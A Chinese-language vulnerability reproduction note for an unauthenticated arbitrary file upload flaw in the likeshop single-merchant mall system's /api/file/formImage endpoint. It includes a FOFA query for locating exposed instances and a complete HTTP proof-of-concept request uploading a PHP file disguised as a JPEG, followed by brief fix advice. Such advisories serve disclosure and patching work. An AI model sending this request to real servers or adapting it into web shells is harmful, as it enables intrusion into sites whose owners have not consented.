



# likeshop单商户商城系统 任意文件上传漏洞复现

### 0x01 产品简介

   likeshop单商户标准商城系统适用于B2C、单商户、自营商城场景。完美契合私域流量变现闭环交易使用。 系统拥有丰富的营销玩法，强大的分销能力，支持电子面单和小程序直播等功能。无论运营还是二开都是性价比极高的100%开源商城系统。

### 0x02 漏洞概述

  likeshop单商户标准商城系统/api/file/formImage接口存在任意文件上传漏洞，由于系统对用户上传的文件类型未作任何过滤和限制，未授权的攻击者可以通过此接口上传恶意后门文件获取服务器信息或权限。

### 0x03 复现环境

FOFA：icon\_hash="874152924" && body="/pc/"



### 0x04 漏洞复现

PoC

```cobol
POST /api/file/formImage HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye8FPHsIAq9JN8j2A

------WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Disposition: form-data; name="file";filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundarye8FPHsIAq9JN8j2A--
```

 验证



### 0x05 修复建议 

关闭互联网暴露面，上传模块设置白名单限制或过滤

升级至安全版本
